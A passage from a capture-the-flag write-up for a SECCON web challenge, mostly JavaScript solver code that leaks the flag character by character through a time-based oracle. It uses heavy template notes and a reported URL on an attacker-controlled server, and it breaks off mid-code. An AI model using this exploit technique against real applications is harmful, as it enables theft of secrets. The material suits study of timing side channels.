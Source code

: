 Next, my solver leaks the flag characters using the time-based oracle as follows (in `index.js`):
```javascript
const leak = async (flagIndex, cookie) => {
  let minTime = 1e10;
  let minChar;
  for (const char of CHARS) {
    const note = `${flagIndex}-${char}-${"{{x}}".repeat(HEAVY_LEVEL)}`;
    await createNote(note, cookie);
    const time = await measureTime(cookie);
    await deleteNote(0, cookie);
    if (time < minTime) {
      minTime = time;
      minChar = char;
    }
  }
  if (!minChar) fail(`Failed at ${flagIndex}`);

  return minChar;
};

const exploit = async () => {
  /* snip */
  const cookie = /* snip (a cookie of your account) */;

  let prefix = "SECCON{";
  while (!prefix.endsWith("}")) {
    prefix += await leak(prefix.length, cookie);
    console.log(prefix);
    await sleep(500);
  }

  console.log(`Flag: ${prefix}`);
  process.exit(0);
};
```

See my solver below for details.

### Solver

`index.js`:
```javascript
const fastify = require("fastify")();
const fs = require("node:fs").promises;
const crypto = require("node:crypto");

const fail = (message) => {
  console.error(message);
  return process.exit(1);
};

const SECCON_BASE_URL = process.env.SECCON_BASE_URL ?? fail("No SECCON_BASE_URL");
const ATTACK_BASE_URL = process.env.ATTACK_BASE_URL ?? fail("No ATTACK_BASE_URL");
const LISTEN_PORT = "8080";

const CHARS = "}_abcdefghijklmnopqrstuvwxyz0123456789";
const HEAVY_LEVEL = 20000;

const sleep = (msec) => new Promise((resolve) => setTimeout(resolve, msec));

const reportUrl = async (url) => {
  const res = await fetch(`${SECCON_BASE_URL}/report`, {
    method: "POST",
    headers: {
      "Content-Type": "application/json",
```